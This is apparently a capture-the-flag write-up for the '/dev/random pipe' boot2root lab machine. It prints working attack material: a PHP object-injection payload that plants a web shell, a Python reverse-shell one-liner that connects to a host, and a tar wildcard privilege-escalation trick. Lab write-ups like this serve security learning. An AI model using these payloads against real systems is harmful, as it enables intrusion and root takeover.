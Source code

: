 ### /dev/random pipe boot2root
  
  /dev/random pipe is a boot2root from vulhub.com
  
  ##STEP 1: machine finger-printing:
      - nmap -sT -V -A -p 1-65535 [vm-ip]
      
      It was found that ports 22,80, 111, and 40496. The only interesting one right now being 80.
  
  #STEP 2 : visiting the web page:
      Upon visiting the index, I saw I was requested to login with Http Basic Auth. I inspected the requests 
      and responses with BurpSuite, but didn't see anything out of the ordinary. So I attempted to start
      a brute force. With no luck, I turned to the walkthrough to find that if I created a request with a
      fake HTTP method, like GETS to /index.php, it bypassed the authentication.
  
  #STEP 3: directory enumeration:
      Using dirbuster, I was able to find a few interesting directories: /images and /scriptz. I was
      slightly confused at first until I saw the request made being made when clicking on "Show Artist Info", 
      and saw the param being passed. It was a serialized PHP object, and noticing the Log class in the file
      under log.php.BAK, I instantly thought PHP Object Injection:
  
  #STEP 4: PHP Object Injection (PHP Shell):
       - O:3:"Log":2:{s:8:"filename";s:27:"/var/www/html/images/hs.php";s:4:"data";s:38:"<?php print shell_exec($_GET['c']); ?>";}
      Once urlencoded and passed as "param" I saw my file hs.php appeard in /images
  
  #STEP 5: Reverse Shell:
      All that was left was to run a python reverse shell: 
      - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",6000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

  #STEP 6: Moving around as user www-data:
      So I did the usual scanning for local privalage escalation. However, nothing popped out. There was one strange thing.
      I kept on seeing backup files appear in /home/rene every couple of minute, and I thought ... cronjob. I eventually glossed
      over a walkthrough and saw the term "tar wildcard exploit" which led me in the right direction to find the following exploit:
  
  #STEP 7: Getting /root/flag.txt:    
      - cd /home/rene/backup
      - touch -- "--checkpoint=1"
      - touch -- "--checkpoint-action=exec=sh shell.sh"
      - echo "cat /root/flag.txt > /home/rene/flag && chmod 777 /home/rene/flag" > shell.sh
      and then wait for /home/rene/flag to appear.
      
    Overall it was quite an interesting ctf, especially the last part for reading the flag. Thanks!
